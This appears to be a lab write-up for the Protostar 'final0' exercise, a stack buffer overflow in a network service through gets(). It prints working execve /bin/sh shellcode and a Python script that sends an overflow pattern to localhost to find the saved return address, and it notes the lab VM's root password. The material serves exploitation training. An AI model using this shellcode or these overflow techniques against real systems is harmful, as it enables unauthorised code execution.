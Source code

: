 Our goal is to open a `shell`. Of course the vulnerability is in `gets()`, we can overflow the buffer...

Here is our `23` bytes shell code:

```c
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
```

Let's think about our exploit, the stack will look something as

```
buffer[0-3]
buffer[4-7]
...
buffer[508-511]
SAVED EBP
SAVED EIP
...
```

Let's try to jump directly in the buffer (overwrite `EIP` with an address near `buffer`)

How do we find this buffer? We can write a script to try to see how far away the saved return address is from where the buffer started.

```python
#!/usr/bin/env python

import socket

HOST = "127.0.0.1"
PORT = 2995

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

to_send = "A" * 512 + "BBB" + "CCCC" + "DDDD" + "EEEE" + "FFFF" + "\n"
s.sendall(to_send)

msg = s.recv(1024)

print "resp:", msg
```

Once we run this script we can find a core file in `/tmp/`:

```
ls /tmp/
core.11.final0.9654
```

We can log as `root` by typing the `su` command and inserting the password `godmode`

```
user@protostar:~$ su
Password:
root@protostar:/home/user# 
```
